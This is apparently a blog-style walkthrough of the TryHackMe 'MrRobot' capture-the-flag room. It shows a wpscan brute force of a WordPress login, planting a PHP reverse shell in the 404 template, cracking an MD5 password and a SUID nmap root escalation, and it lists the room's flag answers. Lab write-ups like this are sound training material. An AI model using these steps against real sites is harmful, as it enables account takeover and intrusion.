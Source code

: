 ```yaml
---
title: MrRobot
description: 'Enumeration, brute forcing a Wordpress login and privilege escalation through SUID'
pubDate: 2020-10-04
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg'
---
```


## Key 1
    - http://10.10.144.188/robots.txt
        - http://10.10.144.188/key-1-of-3.txt
            073403c8a58a1f80d943455fb30724b9

## Key 2
    - http://10.10.144.188/fsocity.dic > uniq.txt
    - https://10.10.143.235/wp-login <- brute force with 'elliot' and uniq.txt
    - wpscan --url http://10.10.143.235/wp-login -U elliot -P uniq.txt
        elliot:ER28-0652

    - edit the 404 page with the rev_shell.php (Appearance > Editor > 404.php)
        - start listener on port 4444
        - go to https://10.10.143.235/404

        daemon@linux:/home/robot$ cat password.raw-md5
        robot:c3fcd3d76192e4007dfb496cca67e13b

        robot:abcdefghijklmnopqrstuvwxyz
        - su - robot <- pass: abcdefghijklmnopqrstuvwxyz

        cat key-2-of-3.txt
            822c73956184f694993bede3eb39f959

## Key 3
    - LinPEAS -> SUID - Check easy privesc, exploits and write perms
        -/usr/local/bin/nmap
    - OR Find root processes:
        - find / -perm +6000 2>/dev/null | grep '/bin/'
            - /usr/local/bin/nmap
            https://gtfobins.github.io/gtfobins/nmap/#shell

    - cat /root/key-3-of-3.txt
        04787ddef27c3dee1ee161b21670b4e4
